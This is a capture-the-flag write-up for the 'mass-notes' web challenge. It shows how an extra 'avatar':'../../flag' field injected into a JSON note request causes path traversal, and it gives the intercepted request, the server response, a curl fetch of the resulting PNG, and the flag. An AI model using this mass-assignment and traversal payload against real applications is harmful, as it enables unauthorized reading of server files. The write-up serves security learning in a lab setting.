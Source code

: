 # Challenge

Url:  https://mass-notes.chal.intentsummit.org/

Type: LFI

Level: Medium

# Challenge Overview

When we go to the website, we taked our note and display our note body and avator png file.

Exmaple Request:
`https://mass-notes.chal.intentsummit.org/note.html?note=%7B%22title%22%3A%22WorkingExploit%20real%20not%20test%22%2C%22content%22%3A%22Workingexploits%20is%20surely%20working%20i%20think%20so%22%2C%22avatar%22%3A%22..%2F..%2Fflag%22%2C%22_id%22%3A%226193a77d989bedd8dfa70292%22%2C%22__v%22%3A0%7D`

URl Decode: `{"title":"WorkingExploit real not test","content":"Workingexploits is surely working i think so","avatar":"../../flag","_id":"6193a77d989bedd8dfa70292","__v":0}`

As you can see there are 4 part which are `title`, `content`, `avator`, `id`. 

Actually the main important parts are `id` and `avator`. After testing while, I know that `avator` have a `LFI` vuln. And also `id` part is important too. 

Because when we created the note, it was display the `avator png file` too. but do you know that where this png came from? Well, when you look the source code of website. 

In the line(36), 

```
img.src = "/avatar/" + note._id + ".png";
```
So, we can know now that the server is creating the png with the `note` `id` from the note that we created in the `/avator/` path and with `.png`. 

`Example: "_id":"6193a77d989bedd8dfa70292"` (**This is the note id from the note that we created, intercept with burp will be clear or you can see in the browser url bar too**)

# Solution

So intercept with burp and add `"avatar":"../../flag"`. We add this in request because the `avatar` path have vuln and we can do lfi to get `../../flag` file.
(Note: `You need to intercept with burp because Server hide a one request`)

Our request:
```
POST /note HTTP/2
Host: mass-notes.chal.intentsummit.org
Cookie: intent-ctf-session=61f4d5867928543117576fbd2d6ee088
Content-Length: 96
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Content-Type: application/json
Accept: */*
Origin: https://mass-notes.chal.intentsummit.org
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://mass-notes.chal.intentsummit.org/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{
  "title":"WorkingExploit",
  "content":"Workingexploits is surely working",
  "avatar":"../../flag" (THis avatar path is need to add ourself )
}
```

# Our response

```
HTTP/2 200 OK
Date: Tue, 16 Nov 2021 12:41:22 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 135
X-Powered-By: Express
Etag: W/"87-3XFh8o8KS5YKX6GSUuHbj7R/DyQ"
Strict-Transport-Security: max-age=15724800; includeSubDomains

{
  "title":"WorkingExploit",
  "content":"Workingexploits is surely working",
  "avatar":"../../flag",
  "_id":"6193a6f2989bedd8dfa7028a",
  "__v":0
}
```
# Quick Note

We knew that there are many path other than `title and content` because of `https://mass-notes.chal.intentsummit.org/note.html?note={"title":"WorkingExploit real not test","content":"Workingexploits is surely working i think so","avatar":"../../flag","_id":"6193a77d989bedd8dfa70292","__v":0}` browser url bar or you can know with brup too.

# Solution Part(2)

So we got our note `id`, we injected lfi in `avatar` path. So, our flag file will be in `avatar png` file. So, our png file will be `https://mass-notes.chal.intentsummit.org/avatar/6193a6f2989bedd8dfa7028a(id of our note).png`. 

So we can get flag by easily using curl
```
curl -k "https://mass-notes.chal.intentsummit.org/avatar/6193a77d989bedd8dfa70292.png"
```

# FLag
INTENT{d0nt_mass_with_ap1s}
